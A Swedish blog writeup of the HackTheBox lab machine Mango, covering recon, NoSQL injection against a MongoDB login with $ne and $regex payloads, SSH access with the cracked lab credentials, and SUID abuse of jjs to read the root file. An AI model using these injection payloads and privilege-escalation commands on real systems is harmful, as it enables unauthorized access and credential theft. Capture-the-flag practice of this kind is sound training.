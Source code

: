 ```yaml
---
title: "HackThebox: Mango Writeup"
date: 2020-06-4 23:07:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - Swedish
---
```


Jag ligger ett par veckor efter i planeringen, och skulle egentligen publicerat den här wirteupen för länge sedan, men det går inte alltid som man vill! Jag hoppas kunna fylla på här med mer innehåll snarast möjligt. 

Det här inlägget är en writeup på HTB-maskinen Mango, utöver vanlig recon-aktivitet så innefattar den NoSQL-injektioner i MongoDB, lite lösenordsknäckning via Python & SUID-exploatering för privilege escalation, happy reading! 

# Recon
**nmap -sC -sV -oA nmap/initial 10.10.10.162**

~~~
Nmap scan report for 10.10.10.162
Host is up (0.081s latency).
Not shown: 940 closed ports, 57 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Inte så mycket som sticker ut efter att ha kört nmap, däremot uppmärksammade jag ett SSL-cerifikat som exponerade någon form av staging-domän och bestämde mig för att titta på den. 

*SSL Certifikatet*

ssl-cert: Subject:
commonName=**staging-order.mango.htb**organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
....

**gobuster dir -u https://staging-order.mango.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x php**
~~~


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://staging-order.mango.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/02/18 17:21:45 Starting gobuster
===============================================================
/index.php (Status: 200)
/analytics.php (Status: 200)
Progress: 17365 / 220561 (7.87%)
~~~

En körning med gobuster visar att det finns en analytics-applikation jag kan komma åt, det här visade sig vara ett s.k. "Rabbit hole" och ledde ingenstans, därför kommer jag inte skriva mer om det.

På staging-domänen finns annars bara en inloggningssida, och som vanligt när det gäller HTB-maskiner brukar namnet i sig vara en ledtråd & så även denna gång mango = mongoDB? 

![Staging-domän](https://jackhack.se/assets/images/staging.png)

Eftersom MongoDB är en NoSQL-databas bestämde jag mig för att testa NoSQL-injektioner, efter att ha kollat upp NoSQL-injektioner hos [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) startade jag upp Burp suite..

# NoSQL Injection (MongoDB)
Några variabler att hålla koll på vid testning: 

\$eq     "equal to"
\$gt     "greater than"
\$gte    "greater than or equal to"
\$ne     "not equal to"

Väl i Burp interceptade jag inloggnings-requesten & kollade vilken respons jag fick när jag testade logga in med användarnamnet *admin* & lösenordet *test*, responskoden var 200 OK

![Burp](https://jackhack.se/assets/images/burp_1.png)

Samma request med användarnamnet admin & lösenordet *\[$ne]test* (alltså **INTE** *test*) fick jag istället responskoden 302 Found


![Burp 302](https://jackhack.se/assets/images/burp_2.png)

Testet indikerar på att det finns en användare vid namn admin, som inte har lösenordet *test* och kan logga in på sidan. 

Nu skulle det vara möjligt att tecken för tecken lista ut användarnamn & lösenord genom att använda sig av reguljära uttryck, t.ex.:

**Först ta reda på längden på lösenordet**
* username=admin&password[$regex]=^.{1}&login=login
Responskod 200 (lösenordet är alltså INTE ett tecken)
* username=admin&password[$regex]=^.{2}&login=login
Responskod 200, lösenordet är alltså INTE två tecken
* ...
* username=admin&password[$regex]=^.{12}&login=login
Responskod 302 Found, lösenordet är alltså 12 tecken!

Sedan kan samma regexp-metod användas för att testa alla bokstäver,siffror och specialtecken för att tecken för tecken lista ut lösenordet.

Detta är såklart ingenting man vill göra för hand, tur att det finns script för detta, jag använde följande script från [GitHub](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

Efter att ha kört scriptet mot staging-sidan fick jag fram följande inloggningsuppgifter:

*mango:h3mXK8RhU~f{]f5H*
*admin:t9KcS3>!0B#2*

# User
Eftersom jag kunde se att port 22 var öppen vid Nmap-scanningen testade jag att logga in via SSH, användaren admin fungerade inte men mango-kontot gav access.

Väl inne i maskinen fanns där ingen user-flagga i mango's hemkatalog, så jag bytte till admin-kontot.


~~~
ssh mango@mango.htb

su admin
cd
cat user.txt
~~~
{: .language-bash}
# Root

När jag har fått en limiterad shell brukar jag köra något av privilege escalation scripten LinEnum eller linuxprivchecker, jag förde över linuxprivchecker genom att sätta upp en python-webserver snabbt.

~~~
--- I Kali ---
cd /opt/scripts/
python -m SimpleHTTPServer 80
--- På remote-maskin ---
wget http://10.10.15.23/linuxprivchecker.py
python linuxprivchecker.py
~~~
{: .language-bash}
Scriptet visade en binärfil vid namn "jjs" som har "SUID"-flagga satt och därför kan köras med administratörsrättigheter, jag kollade upp binären i repot [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) för att se vad jag kunde åstadkomma med den. 

Jag fick inte till det med mina försök att använda jjs för att upprätta en reverse-shell mellan min kali-host och maskinen. Däremot kunde jag köra följande kod för att läsa root-flaggan.

~~~
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

root.txt:8a8ef79a7a2fbb01ea81688424e9ab15
~~~
{: .language-bash}


